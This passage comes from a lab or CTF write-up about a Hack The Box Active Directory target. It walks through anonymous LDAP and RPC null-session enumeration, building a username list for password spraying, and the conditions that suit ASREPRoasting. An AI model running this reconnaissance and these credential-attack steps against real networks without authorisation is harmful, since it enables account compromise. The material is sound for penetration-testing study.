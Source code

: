 ```bash
ldapsearch -H ldap://10.10.10.161 -x -s base
```

Interestingly, without specifying anything after base, I still got data. This made me realize that the namingcontexts parameter Ippsec used was actually just acting as a filter.

### LDAP Enumeration Commands

```bash
# Query for the domain name
ldapsearch -H ldap://10.10.10.161 -x -s base namingcontexts

# With the acquired domain name, query all LDAP info with anonymous access
ldapsearch -H ldap://10.10.10.161 -x -s sub -b "DC=htb,DC=local"

# Filter for specific object classes
ldapsearch -H ldap://10.10.10.161 -x -s sub -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName

# Create clean username list for password spraying
ldapsearch -H ldap://10.10.10.161 -x -s sub -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > userlist.ldap
```

### RPC Enumeration

The RPC connection also required a modification — we need to add the `-N` flag to specify no password:

```bash
rpcclient -U '' -N 10.10.10.161
> enumdomusers
> queryusergroups <rid>
> querygroup <rid>
> queryuser <rid>
```

This revealed the **svc-alfresco** user that didn't show up in LDAP enumeration because it wasn't part of the "Person" objectClass.

## ASREPRoasting: When and How

After getting the svc-alfresco user, I decided to skip the password spray (knowing from the video it wouldn't work) and went straight to ASREPRoasting.

### When to Use ASREPRoasting

I found it's most useful when:
1. You've identified a Windows domain environment (Active Directory)
2. You have a list of valid usernames but no passwords
3. You've confirmed Kerberos authentication is running

### Key Indicators for ASREPRoasting
1. Port 389 (LDAP) is open
2. Port 88 (Kerberos) is open  
3. You can enumerate the domain name
4. You've gathered valid usernames through LDAP enumeration
5. Traditional password attacks haven't worked

